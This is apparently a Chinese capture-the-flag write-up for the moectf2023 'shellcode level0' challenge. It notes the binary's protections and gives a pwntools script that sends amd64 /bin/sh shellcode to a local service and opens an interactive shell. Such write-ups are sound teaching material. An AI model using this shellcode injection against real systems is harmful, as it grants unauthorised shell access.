 ```yaml
---
title: moectf2023 - shellcode level0
date: 2023/9/23 12:00:00
tags:
    - noob
excerpt: 使用shellcode利用64位程序漏洞，发送shellcode并获取交互。
---
```


## 文件分析

下载`shellcode_level0`, NX off, PIE on, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

程序中直接执行rbp-0x70的地址，且给了100B的空间，填一个shellcode即可

{% note warning fa-exclamation %}
在运行asm时加上参数`arch='amd64'`，否则缺省以i386架构产生，会报错
{% endnote %}

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 33151)
shc = asm(shellcraft.amd64.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
